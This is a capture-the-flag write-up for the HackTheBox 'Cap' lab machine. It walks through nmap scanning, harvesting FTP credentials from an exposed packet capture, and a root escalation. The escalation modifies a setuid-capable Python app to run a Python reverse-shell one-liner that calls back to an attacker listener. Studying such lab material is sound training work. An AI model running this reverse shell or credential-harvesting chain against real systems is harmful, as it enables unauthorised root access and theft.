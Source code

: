 # [HTB] - Cap

[Room link](https://app.hackthebox.com/machines/Cap)

---

<br>

## Enumeration

Simple nmap :

```bash
$ sudo nmap -sS -oN nmap.txt 10.10.10.245
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

<br>

Simple map with script execution and versions

```bash
$ sudo nmap -p21,22,80 -sC -sV -oN nmap-openports-1.txt 10.10.10.245
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 12 Jun 2022 16:04:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
```

<br>

Nmap every ports : there is no more open ports.

```bash
$ sudo nmap -sS -p- -oN nmap-full.txt 10.10.10.245
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```

<br>

On the website, we are logged as Nathan. We can go to "home" page then we have a possibilty to get a "security snapshot". If we want to get a new security snapshot, there is no data in our new pcap file. But the url is : http://10.10.10.245/data/1. If we get this url http://10.10.10.245/data/0 we have more informations.
So download this file and open with Wireshark.

If we go on the stream TCP and Flux n°3, we can have the nathan's credentials through a ftp connection.

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS *************
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

---

<br>

## Exploitation

Let's connect to FTP

```bash
$ ftp 10.10.10.245       
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:*): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
[...]
ftp> ls -la                                                                            
200 PORT command successful. Consider using PASV.                                      
150 Here comes the directory listing.                                                  
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .                              
drwxr-xr-x    3 0        0            4096 May 23  2021 ..                             
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null     
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout                   
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc                        
drwx------    2 1001     1001         4096 May 23  2021 .cache                         
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile                       
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null          
-r--------    1 1001     1001           33 Jun 12 16:01 user.txt
```

<br>

We can also connect us as nathan on the machine through ssh

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
```

---

<br>

## User flag

So, we have the user's flag. There is in user.txt on the nathan's home directory.

```bash
$ cat ~/user.txt
```

---

<br>

## Root flag

Move on the /var/www/html directory. There is a python script in here. Check it.

```bash
# permissions issues with gunicorn and threads. hacky solution for now.
        os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        print(command)
        os.system(command)
        #os.setuid(1000)
[...]
if __name__ == "__main__":
        app.run("0.0.0.0", 88, debug=True)
```

Uncomment the os.setuid(0) and modify the "command" variable as above. The objectif is to set up a reverse shell. Finally, modify the port for application (on port 88 in this case).

Now, set up the netcat listenner on attack machine

```bash
$ nc -lnvp 7777
```

And then, start the python script modified.

```bash
$ python3 app.py
```

Now, go to the new website on port 88 and run "security snapshots". Reverse shell works. We can get the root flag.

```bash
$ nc -lnvp 7777                                                                 1 ⨯
listening on [any] 7777 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.245] 41786
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
*****************
```
